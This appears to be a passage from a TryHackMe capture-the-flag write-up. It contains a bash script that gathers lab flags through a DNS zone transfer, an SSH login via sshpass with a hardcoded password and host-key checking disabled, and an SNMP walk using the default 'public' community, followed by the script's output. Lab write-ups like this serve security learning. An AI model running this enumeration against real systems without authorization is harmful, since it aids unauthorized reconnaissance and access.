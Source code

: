
### Questions
---

Let's automate all with a bash script:

```bash
#!/bin/bash

# Configuration
TARGET="IP"
USER="user"
PASSWORD="THM33\$\$88"  # Properly escaped password
SNMP_OID="1.3.6.1.2.1.1.6.0"

# Colors
RED='\033[0;31m'
GREEN='\033[0;32m'
CYAN='\033[0;36m'
NC='\033[0m' # No Color

# DNS Zone Transfer
echo -e "${CYAN}[1] Performing DNS Zone Transfer...${NC}"
dns_flag=$(dig -t AXFR redteam.thm @$TARGET +short | grep -oP 'THM{.*?}')
echo -e "${GREEN}DNS Flag: ${RED}${dns_flag}${NC}"

# SMB Share Enumeration via SSH
echo -e "\n${CYAN}[2] Checking SMB Shares via SSH...${NC}"
smb_flag=$(sshpass -p "$PASSWORD" ssh -o StrictHostKeyChecking=no $USER@$TARGET "net share" 2>/dev/null | grep -oP 'THM{.*?}')
echo -e "${GREEN}SMB Flag: ${RED}${smb_flag}${NC}"

# SNMP Location Check
echo -e "\n${CYAN}[3] Checking SNMP Information...${NC}"
snmp_flag=$(snmpwalk -v 2c -c public $TARGET $SNMP_OID 2>/dev/null | grep -oP 'THM{.*?}')
echo -e "${GREEN}SNMP Flag: ${RED}${snmp_flag}${NC}"
```

We need `sshpass` and `snmpwalk` installed for the script to work.


Once we run the script, we can see this:

```python
./automate.sh

[1] Performing DNS Zone Transfer...
DNS Flag: THM{DNS_ZONE}

[2] Checking SMB Shares via SSH...
SMB Flag: THM{829738}

[3] Checking SNMP Information...
SNMP Flag: THM{SNMP_SERVICE}
```
